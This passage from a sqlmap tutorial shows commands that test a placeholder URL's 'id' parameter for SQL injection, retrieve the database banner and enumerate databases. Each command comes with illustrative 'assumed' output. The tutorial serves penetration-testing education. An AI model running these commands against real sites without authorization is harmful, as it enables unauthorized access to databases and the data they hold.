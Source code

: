 **Assumed Output:**
```
[21:43:28] [INFO] testing connection to the target URL
[21:43:29] [INFO] testing if the target URL content is stable
[21:43:29] [INFO] target URL content is stable
[21:43:29] [INFO] testing if GET parameter 'id' is dynamic
[21:43:29] [INFO] GET parameter 'id' appears to be dynamic
[21:43:29] [INFO] heuristic (basic) test shows that GET parameter 'id' might be injectable
[21:43:29] [INFO] testing for SQL injection on GET parameter 'id'
[21:43:29] [INFO] confirming SQL injection vulnerability on GET parameter 'id'
[21:43:30] [INFO] GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N]
```

**Description:**
This command tests the target URL for SQL injection vulnerabilities. SQLMap attempts to inject SQL payloads into the `id` parameter to see if the web application is vulnerable.

### 2. Get More Information

**Command:**
```bash
sqlmap -u "http://example.com/product?id=1" --banner
```

**Assumed Output:**
```
[21:45:12] [INFO] testing connection to the target URL
[21:45:13] [INFO] testing if the target URL content is stable
[21:45:13] [INFO] retrieving the database management system banner
[21:45:14] [INFO] the back-end DBMS is MySQL
web application technology: Apache, PHP 7.4.3
back-end DBMS: MySQL >= 5.0.12
banner: '5.7.33-0ubuntu0.16.04.1'
```

**Description:**
This command retrieves and displays the banner information of the database, which includes details like the database type and version.

### 3. Enumerate Databases

**Command:**
```bash
sqlmap -u "http://example.com/product?id=1" --dbs
```

**Assumed Output:**
```
[21:47:19] [INFO] fetching database names
available databases:
[*] information_schema
[*] exampledb
[*] testdb
```
